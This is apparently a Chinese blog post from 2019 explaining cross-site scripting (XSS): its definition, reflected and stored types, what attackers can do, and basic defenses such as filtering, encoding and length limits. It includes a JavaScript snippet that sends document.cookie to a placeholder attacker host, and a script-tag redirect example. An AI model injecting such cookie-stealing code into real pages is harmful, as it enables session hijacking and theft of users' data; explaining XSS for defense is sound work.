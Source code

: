 ```yaml
---
title: XSS攻击
date: 2019-4-19
tags: 前端
author: 映雪
---
```


浮云吹作雪，世味煮成茶。

<!--more-->

### XSS 攻击

- XSS 是跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为 XSS。**恶意攻击者往 Web 页面里插入恶意 Script 代码，当用户浏览该页之时，嵌入其中 Web 里面的 Script 代码会被执行，从而达到恶意攻击用户的目的**。

### XSS 攻击条件

1. 需要向 web 页面注入恶意代码。
2. 这些恶意代码能够被浏览器成功的执行。

### XSS 类型

1. XSS 反射型攻击:恶意代码并没有保存在目标网站，通过引诱用户点击一个链接到目标网站的恶意链接来实施攻击的。

2. XSS 存储型攻击:恶意代码被保存到目标网站的服务器中，这种攻击具有较强的稳定性和持久性。比较常见场景是在博客，论坛等社交网站上，但 OA 系统，和 CRM 系统上也能看到它身影，比如：某 CRM 系统的客户投诉功能上存在 XSS 存储型漏洞，黑客提交了恶意攻击代码，当系统管理员查看投诉信息时恶意代码执行，窃取了客户的资料，然而管理员毫不知情，这就是典型的 XSS 存储型攻击。

### XSS 攻击能做些什么？

1. 窃取 cookie，读取目标网站的 cookie 发送到黑客的服务器上，盗用 cookie 实现无密码登录

```js
var i = document.createElement('img');
document.body.appendChild(i);
i.src = 'http://www.hackerserver.com/?c=' + document.cookie;
```

2. 劫持流量实现恶意跳转

```js
<script>window.location.href="http://www.baidu.com";</script>
```

### 解决

1. 过滤,对诸如 `<script>、<img>、<a>`等标签进行过滤。
2. 编码,像一些常见的符号，如<>在输入的时候要对其进行转换编码，这样做浏览器是不会对该标签进行解释执行的，同时也不影响显示效果。
3. 限制,通过以上的案例我们不难发现 XSS 攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。

